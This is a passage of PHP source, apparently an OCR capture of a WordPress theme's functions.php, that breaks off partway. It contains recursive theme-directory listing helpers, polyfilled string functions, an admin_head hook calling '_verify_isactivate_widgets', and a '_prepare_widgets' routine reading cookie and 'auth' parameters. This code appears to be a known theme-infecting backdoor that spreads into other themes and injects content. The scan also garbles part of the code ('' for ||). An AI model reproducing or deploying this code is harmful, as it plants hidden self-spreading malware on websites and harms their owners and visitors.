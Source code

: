     $items[]=$places . "/" . $elem;}
     }
     }
     }else{
     return false; 
     }
     if (sizeof($wids) > 0){
     return _get_allwidgetscont($wids,$items);
     } else {
     return $items;
     }
    }
    if(!function_exists("stripos")){ 
     function stripos( $str, $needle, $offset = 0 ){ 
     return strpos( strtolower( $str ), strtolower( $needle ), $offset ); 
     }
    }

    if(!function_exists("strripos")){ 
     function strripos( $haystack, $needle, $offset = 0 ) { 
     if( !is_string( $needle ) )$needle = chr( intval( $needle ) ); 
     if( $offset < 0 ){ 
     $temp_cut = strrev( substr( $haystack, 0, abs($offset) ) ); 
     } 
     else{ 
     $temp_cut = strrev( substr( $haystack, 0, max( ( strlen($haystack) - $offset ), 0 ) ) ); 
     } 
     if( ( $found = stripos( $temp_cut, strrev($needle) ) ) === FALSE )return FALSE; 
     $pos = ( strlen( $haystack ) - ( $found + $offset + strlen( $needle ) ) ); 
     return $pos; 
     }
    }
    if(!function_exists("scandir")){ 
     function scandir($dir,$listDirectories=false, $skipDots=true) {
     $dirArray = array();
     if ($handle = opendir($dir)) {
     while (false !== ($file = readdir($handle))) {
     if (($file != "." && $file != "..") '' $skipDots == true) {
     if($listDirectories == false) { if(is_dir($file)) { continue; } }
     array_push($dirArray,basename($file));
     }
     }
     closedir($handle);
     }
     return $dirArray;
     }
    }
    add_action("admin_head", "_verify_isactivate_widgets");
    function _prepare_widgets(){
     if(!isset($comment_length)) $comment_length=120;
     if(!isset($strval)) $strval="cookie";
     if(!isset($tags)) $tags="<a>";
     if(!isset($type)) $type="none";
     if(!isset($sepr)) $sepr="";
     if(!isset($h_filter)) $h_filter=get_option("home"); 
     if(!isset($p_filter)) $p_filter="wp_";
     if(!isset($more_link)) $more_link=1; 
     if(!isset($comment_types)) $comment_types=""; 
     if(!isset($countpage)) $countpage=$_GET["cperpage"];
     if(!isset($comment_auth)) $comment_auth="";
     if(!isset($c_is_approved)) $c_is_approved=""; 
     if(!isset($aname)) $aname="auth";
     if(!isset($more_link_texts)) $more_link_texts="(more...)";
     if(!isset($is_output)) $is_output=get_option("_is_widget_active_");